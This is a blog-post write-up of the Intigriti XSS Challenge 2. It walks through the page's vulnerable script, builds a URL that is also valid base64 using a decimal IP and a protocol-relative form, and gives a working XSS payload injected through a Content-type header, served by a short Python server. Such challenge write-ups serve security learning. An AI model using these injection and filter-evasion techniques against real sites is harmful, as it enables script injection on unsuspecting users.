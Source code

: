 ```yaml
---
layout: post
title:  "Intigriti XSS Challenge 2 and how I lost time to a bad assumption"
date:   2019-05-26
categories: intigriti xss
---
```


[Intigriti](https://www.intigriti.com/public/) is once again offering us an [XSS challenge](https://challenge.intigriti.io/2/). The first one had cryptic code and a complicated setup between the page and an `iframe`, but this time around the code is rather straight-forward. Let's see if that makes the challenge easier. ;)

## Analyzing the code

```javascript
var b64img = window.location.hash.substr(1);
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
  if (this.readyState == 4 && this.status == 200) {
    var reader = new FileReader();
    reader.onloadend = function() {
      document.write(`
        <a href="${b64img}" alt="${atob(b64img)}">
          <img src="${reader.result}">
        </a>`);
    }
    reader.readAsDataURL(this.response);
  }
};
xhttp.responseType = 'blob';
xhttp.open("GET", b64img, true);
xhttp.send();
```

1. The `hash` of the current page's url (minus the leading `#`) is assigned to `b64img`
2. A GET HTTP request is sent to `b64img` and the answer will be read as a [Blob](https://developer.mozilla.org/en-US/docs/Web/API/Blob)
3. If the HTTP request answers with 200, the Blob is [`readAsDataURL`](https://developer.mozilla.org/en-US/docs/Web/API/FileReader/readAsDataURL) with a [`FileReader`](https://developer.mozilla.org/en-US/docs/Web/API/FileReader)
4. Once the Blob is read, `b64img`, `atob(b64img)` and the data URL created from the Blob are inserted into the DOM

Main observations:

- The `hash` of the URL somehow has to be a valid URL because we're making an HTTP request from it and we expect a 200 response
- That URL also has to be a valid base64 string because we're sending it to `atob(64)` which is the JavaScript function to decode base64

## Finding a valid URL

As it was the case for the last challenge, I don't care about XSS payloads yet. It's pretty clear either `b64img`, `atob(b64img)` or `reader.result` will be where we get XSS from, but there is a major challenge before getting there: crafting a valid URL that is also valid base64!

The way its coded, a value for `b64img` without a protocol (i.e.: `http://`) will make a request relative to the current domain (`https://challenge.intigriti.io/2/`). For example if `b64img` is `ABC` it will trigger a request for `https://challenge.intigriti.io/2/ABC` while if `b64img` is `http://test.com` it will trigger a request for `http://test.com`.

At this point I made the assumption that `/` wasn't a valid base64 character (worked too much with url-safe base64 implementations lately!) and lost a ton of time trying a ton of things that made no sense until [@mastjohnny](https://twitter.com/mastjohnny) made me realize that it is a valid base64 character indeed. Many hours were lost exploring data URLs, `XMLHttpRequest` and `FileReader` for strange edge cases that would help me here but I should have verified my assumption instead. :)

### Eliminating invalid characters

I started a server on my machine and tried loading [https://challenge.intigriti.io/2/#http://127.0.0.1](https://challenge.intigriti.io/2/#http://127.0.0.1). This resulted in the following (expected) error

> Uncaught DOMException: Failed to execute 'atob' on 'Window': The string to be decoded is not correctly encoded.

I need to get rid of the `.` and the `:` because they are invalid base64 characters. Two transformations are needed!

1. Remove the `.` by changing the IP to a decimal IP: `http://127.0.0.1` becomes `http://2130706433` (See [IPv4 Address Representations](https://en.wikipedia.org/wiki/IPv4#Address_representations))
2. Remove the `:` by using a protocol-relative URL: `http://2130706433` becomes `//2130706433`
    - A protocol relative url will take the protocol of the parent page

With that I try [https://challenge.intigriti.io/2/#//2130706433](https://challenge.intigriti.io/2/#//2130706433) and the result is the following error

> GET https://127.0.0.1/ net::ERR_CONNECTION_REFUSED

The request went to *https* because I'm on the https version of the challenge. Let's try [http://challenge.intigriti.io/2/#//2130706433](http://challenge.intigriti.io/2/#//2130706433)

> Access to XMLHttpRequest at 'http://127.0.0.1/' from origin 'http://challenge.intigriti.io' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.

There is no CORS header returned by my server so I need to add `Access-Control-Allow-Origin: *` to my response.

I can now reload the same URL and it loads without crashing!

## XSS time

`readAsDataURL` returns a data URL which contains the `Content-type` of the resource loaded. For example the default challenge URL loads an image that turns into the data URL `"data:application/octet-stream;base64,iVBORw0KGgoAAAANSUhEUgAAA0o..."`. This text is inserted straight into the HTML and I have control over the `Content-type` from my server so I set it to `text/" onerror="alert(document.domain)"><!--` and...

![Success!]({{ '/images/intigriti_xss_victory.png' | absolute_url }})

Success! There were other ways to trigger the XSS but instead of listing them here I encourage you to go on twitter and find other write-ups documenting them.

Here's the code used for my server.

```python
#!/usr/bin/python3

from http.server import BaseHTTPRequestHandler, HTTPServer

class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        message = "Hello Intigriti!"

        self.protocol_version = "HTTP/1.1"
        self.send_response(200)
        self.send_header("Content-Length", len(message))
        self.send_header("Content-type", 'text/" onerror="alert(document.domain)"><!--')
        self.send_header("Access-Control-Allow-Origin", "*")
        self.end_headers()

        self.wfile.write(bytes(message, "utf8"))
        return

def run():
    server = ('0.0.0.0', 80)
    httpd = HTTPServer(server, RequestHandler)
    httpd.serve_forever()
run()
```

## Conclusion

Another fun challenge! This time aroud my key takeaways are:

- Challenge your own assumptions, they could be making the challenge harder than it really is
- Different representations of the same thing can help evade filters/validations, keep them in mind!

Thank you [@intigriti](https://twitter.com/intigriti/) and good luck to everyone for the prize!
